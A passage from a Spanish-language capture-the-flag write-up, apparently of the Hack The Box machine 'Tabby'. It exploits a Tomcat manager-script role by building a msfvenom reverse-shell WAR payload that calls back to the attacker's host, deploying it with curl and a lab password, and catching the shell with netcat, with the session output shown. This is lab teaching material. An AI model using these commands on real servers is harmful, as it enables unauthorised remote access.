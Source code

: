 Estamos dentro, revisando el archivo `tomcat-users.xml` vemos dos roles: 

* **admin-gui**: Nos permite entrar al **/host-manager**.
* **manager-script**: Nos va a permitir jugar con scripts. Démosle un vistazo a este

Siguiendo [esta guia](https://medium.com/@cyb0rgs/exploiting-apache-tomcat-manager-script-role-974e4307cd00) vemos la manera de ejecutar comandos en la máquina, podemos aprovecharnos de esto para obtener una reverse Shell. Todo pasa por que podemos subir un archivo malicioso .WAR

> En computación, un archivo WAR es un archivo JAR utilizado para distribuir una colección de JavaServer Pages, servlets, clases Java, archivos XML... [Wikipedia](https://es.wikipedia.org/wiki/WAR_(archivo))

Lo primero es generar el archivo, podemos usar `msfvenom` para ello:

> [Esta otra guia] nos explica como seria crear el archivo en vez de usar `msfvenom`

```bash
# Creamos el archivo
─╼ $ msfvenom -p java/shell_reverse_tcp lhost=10.10.15.86 lport=4433 -f war -o pwn.war

# Subimos el archivo y lo alojamos en la ruta `/foo`
─╼ $ curl -u tomcat:'$3cureP4s5w0rd123!' --upload-file pwn.war "http://10.10.10.194:8080/manager/text/deploy?path=/foo&update=true"

# Nos ponemos en escucha
─╼ $ nc -nlvp 4433

# Ejecutamos la petición
─╼ $ curl -s http://10.10.10.194:8080/foo
```

```bash
─╼ $ rlwrap nc -nlvp 4433
listening on [any] 4433 ...
connect to [10.10.15.86] from (UNKNOWN) [10.10.10.194] 38884
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
hostname
tabby
whoami
tomcat
cd /
/
script /dev/null -c bash
Script started, file is /dev/null
```

![bashtomcatshell](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tabby/bashtomcatshell.png)

Estamos dentro, ahora a enumerar :)
